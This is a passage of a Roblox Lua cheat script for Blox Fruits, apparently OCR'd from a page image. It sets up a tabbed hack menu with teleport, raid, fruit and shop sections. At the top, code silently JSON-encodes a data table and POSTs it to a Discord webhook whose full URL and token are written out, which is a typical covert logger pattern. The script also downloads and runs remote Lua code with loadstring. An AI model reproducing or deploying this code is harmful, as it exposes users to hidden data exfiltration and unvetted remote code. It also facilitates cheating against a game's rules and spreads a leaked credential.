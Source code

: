                                     }              
                                }
                            }
                    
                    
                    local Headers = {["Content-Type"]="application/json"}
                    local Encoded = HttpService:JSONEncode(Data)
                    
                    Request = http_request or request or HttpPost or syn.request
                    local Final = {Url = "https://discord.com/api/webhooks/1318756510037180426/CFVTmoAsZ_kkPVj2lmPao9F0rxwuIdE1Yg-Ri5QxiFIjgI6xkw-qcLOogjkb8vskatQs", Body = Encoded, Method = "POST", Headers = Headers}
                    Request(Final)

local Fluent = loadstring(game:HttpGet("https://github.com/dawid-scripts/Fluent/releases/latest/download/main.lua"))()
local SaveManager = loadstring(game:HttpGet("https://raw.githubusercontent.com/dawid-scripts/Fluent/master/Addons/SaveManager.lua"))()
local InterfaceManager = loadstring(game:HttpGet("https://raw.githubusercontent.com/dawid-scripts/Fluent/master/Addons/InterfaceManager.lua"))()
local OrionLib = loadstring(game:HttpGet(("https://raw.githubusercontent.com/shlexware/Orion/main/source")))()

local Window = Fluent:CreateWindow({
    Title = " Anna Sigma boy Sigma boy| Blox Fruits",
    SubTitle = "Version 2",
    TabWidth = 160,
    Size = UDim2.fromOffset(530, 350),
    Acrylic = true,
    Theme = "Darker",
    MinimizeKey = Enum.KeyCode.End
})
local Tabs = {
    Main = Window:AddTab({ Title = "Main", Icon = "rbxassetid://88147973848189" }),
    Setting = Window:AddTab({ Title = "Setting", Icon = "rbxassetid://88147973848189" }),
    Stats = Window:AddTab({ Title = "Stats", Icon = "rbxassetid://88147973848189" }),
    Player = Window:AddTab({ Title = "Player", Icon = "rbxassetid://88147973848189" }),
    Teleport = Window:AddTab({ Title = "Teleport", Icon = "rbxassetid://88147973848189" }),
    Fruit = Window:AddTab({ Title = "Fruit", Icon = "rbxassetid://88147973848189" }),
    Raid = Window:AddTab({ Title = "Raid", Icon = "rbxassetid://88147973848189" }),
    Race = Window:AddTab({ Title = "Race V4", Icon = "rbxassetid://88147973848189" }),
    Shop = Window:AddTab({ Title = "Shop", Icon = "rbxassetid://88147973848189" }),
	Misc = Window:AddTab({ Title = "Misc", Icon = "rbxassetid://88147973848189" }),
}
local Options = Fluent.Options
do
OrionLib:MakeNotification(
        {
            Name = "Notification",
            Content = "Please Wait For Loading Code",
            Image = "rbxassetid://88147973848189",
            Time = 7
        }
    )
_G.lakala = true
